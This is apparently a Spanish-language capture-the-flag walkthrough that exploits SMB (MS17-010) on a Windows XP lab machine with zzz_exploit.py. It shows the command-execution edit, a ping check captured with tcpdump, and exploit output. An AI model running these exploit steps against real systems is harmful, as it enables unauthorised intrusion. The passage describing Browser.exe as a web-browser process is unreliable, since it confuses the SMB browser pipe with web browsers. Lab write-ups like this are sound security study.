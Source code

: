 <br>

<h3 id="Configure">Configurando Exploit para su Uso</h3>

Abre el script **zzz_exploit.py** y modifica las siguientes lineas:
```bash
USERNAME = ''
PASSWORD = ''

smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
```

Nos pide 2 parámetros, los cuales no tenemos de momento y están esos 2 lineas de código, que estan en la función **smb_pwn**. Aquí, la desventaja es que no nos podemos loguear en el **servicio SMB** a diferencia de lo que podiamos hacer en la **máquina Blue**. Lo que podemos probar es, si con la **named pipe spoolss** o **browser** podemos inyectar código.

Pero, ¿qué son las **named pipes spoolss y browser**?

| **Spoolss.exe** |
|:-----------:|
| *El spoolss.exe es un proceso que pertenece a Microsoft Windows Operating System. El archivo se carga en la memoria principal (RAM) y funciona ahí como un proceso de Microsoft Printer Spooler Subsystem (también denominado una tarea).El archvio spoolss.exe es un proceso del sistema necesario para que su PC funcione correctamente. No debe eliminarse* |

<br>

| **Browser.exe** |
|:-----------:|
| *Browser.exe es un proceso legítimo asociado a navegadores web como Google Chrome, Mozilla Firefox y Microsoft Edge. Forma parte del archivo ejecutable del navegador y se encarga de iniciarlo y ejecutarlo. Al abrir un navegador web, se inicia el proceso Browser.exe, que permanece activo hasta que se cierra el navegador. Browser es un acceso por red al servidor de Windows* |

<br>

Entonces sería mejor probar por el **Browser** para ver si se puede inyectar código, intentemos lanzar una **Traza ICMP** de la máquina víctima, hacia nuestra máquina. Para hacer esto, modifiquemos el script **zzz_exploit.py**, para que aplique el ping a nuestra máquina:
```bash
service_exec(conn, r'cmd /c ping Tu_IP')
```

Levantamos un servidor con **tcpdump** para que capture la traza y con esto comprobamos si se inyecto el comando o no:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Probamos el Exploit:
```bash
python2 zzz_exploit.py 10.10.10.4 browser
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86466990
SESSION: 0xe1599948
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
...
```
